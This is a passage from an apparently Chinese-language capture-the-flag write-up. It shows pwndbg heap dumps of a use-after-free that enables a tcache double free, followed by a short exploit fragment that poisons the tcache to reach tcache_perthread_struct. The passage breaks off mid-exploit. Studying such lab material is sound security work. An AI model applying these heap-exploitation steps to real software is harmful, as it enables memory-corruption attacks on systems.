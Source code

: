 ```c
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000061 #chunk0
0x555555757260:	0x0000555555757260	0x0000000000000000
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000000000000000	0x0000000000000000
    			#这里没有数据是因为在free此堆块时，程序将其size置0
                #具体请参考IDA伪代码
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000000000000000
    			#UAF，chunk1_data_ptr
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0x60 [  2]: 0x555555757260 ◂— 0x555555757260 /* '`ruUUU' */
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```

**<font style="color:#F5222D;">由于UAF漏洞的存在，chunk_data指针没有置空，因此可以进行多次free。</font>**

> exp中的heap_base其实指的是泄露出来的堆地址，而并非堆基地址
>
> heap_base=0x555555757260
>

## 利用Tcache_poisoning控制tcache_perthread_struct
```python
new(0x50) #1
edit(1, p64(heap_base - 0x250))
```
